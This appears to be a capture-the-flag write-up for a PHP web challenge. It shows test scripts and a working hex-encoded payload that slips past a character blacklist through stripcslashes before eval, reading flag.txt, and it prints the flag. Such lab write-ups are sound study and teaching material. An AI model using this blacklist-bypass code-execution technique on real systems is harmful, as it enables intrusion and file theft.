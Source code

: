 At first looking at this level I thought about passing file_get_contents a php filter, and I should pass base64 encoded string to the file and boom RCE.
I tested it like this:

```
<?php
$s = "ZWNobyAibWF0dGkiOw==";
$x = 'php://filter/read=convert.base64-decode/resource=/workspace/test';
$s = str_replace (
                ['<?', '?>', '"', "'", '$', '&', '|', '{', '}', ';', '#', ':', '#', ']', '[', ',', '%', '(', ')'],
                '',
                $s
);
echo $s . "\n";
file_put_contents('/workspace/test', $s);
print_r(file_get_contents ($x) . "\n");

echo eval (stripcslashes (file_get_contents ($x)));
?>
```

And everything worked locally, but when I tried it on the site nothing happened.
After some time I realised this doesn't the ```file_exists()``` check...
I tried to play with it some more but file_exists doesn't work with php://filter, only with php://temp or php://memory because they are the only ones who implement stat.

I then tried to approach a different function - ```stripcslashes()``` and saw in it's documentation that it says:
```Returns a string with backslashes stripped off. Recognizes C-like \n, \r ..., octal and hexadecimal representation.```
The hexadecimal and octal part caught my eye, so I tested it locally like this:
```
$s = "\\x65\\x63\\x68\\x6F\\x20\\x22\\x70\\x77\\x6E\\x65\\x64\\x22\\x3B";
$x = '/workspace/test';
$s = str_replace (
                ['<?', '?>', '"', "'", '$', '&', '|', '{', '}', ';', '#', ':', '#', ']', '[', ',', '%', '(', ')'],
                '',
                $s
);
echo $s . "\n";
file_put_contents('/workspace/test', $s);
print_r(file_get_contents ($x) . "\n");
if (file_exists($x)){
    echo eval (stripcslashes (file_get_contents ($x)));
}
else {
    echo "not found";
}
```
And what do you know, I get printed: pwned :)

I then tried it on the site, passing it ```\x70\x72\x69\x6E\x74\x5F\x72\x28\x22\x70\x77\x6E\x65\x64\x22\x29\x3B``` as c and then accessed it with the cookie and what do you know, I got printed pwned :) 

final payload ```print_r(file_get_contents('flag.txt'));``` ==> ```\x70\x72\x69\x6E\x74\x5F\x72\x28\x66\x69\x6C\x65\x5F\x67\x65\x74\x5F\x63\x6F\x6E\x74\x65\x6E\x74\x73\x28\x27\x66\x6C\x61\x67\x2E\x74\x78\x74\x27\x29\x29\x3B```

And then I get the flag: WEBSEC{stripcslashes_to_bypass}